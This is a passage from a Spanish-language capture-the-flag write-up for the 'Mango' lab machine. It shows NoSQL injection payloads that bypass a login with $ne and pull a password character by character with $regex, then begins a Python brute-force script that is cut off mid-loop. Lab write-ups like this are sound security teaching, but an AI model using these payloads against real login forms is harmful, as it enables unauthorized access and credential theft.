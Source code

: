 No parece ser vulnerable a SQLI.
## Vulnerability Assessment {-}


### NO SQLI {-}

El nombre de la maquina Mango nos hace pensar a Mango DB que uza NO SQL. Miramos en  [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
para ver si se puede hacer algo con NO SQLI

```bash
username[$ne]=admin&password[$ne]=admin&login=login
```

Aqui vemos que la respuesta es differente de la precedente lo que quiere decir que es probable que seamos frente de una vulnerabilidad **NOSQLI**

Vamos a probar cosas con expressiones regulares

```bash
username[$regex]=^a&password[$ne]=admin&login=login
Respuesta : 302 Found

username[$regex]=^b&password[$ne]=admin&login=login
Respuesta : 200 Ok

username[$regex]=^ad&password[$ne]=admin&login=login
Respuesta : 302 Found

username[$regex]=^ab&password[$ne]=admin&login=login
Respuesta : 200 Ok
```

Suponiendo que existe un usuario admin, vemos que con expresiones regulares, cuando acertamos tenemos una respuesta a lado de servidor 302 y a cada error un 200.

Nos creamos un script en python para el NOSQLI

```python
#!/usr/bin/python3

import pdb # Debugging
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
characters = string.ascii_letters

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando fase de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password[admin]")
    username = ""

    while True:
        for character in characters:

```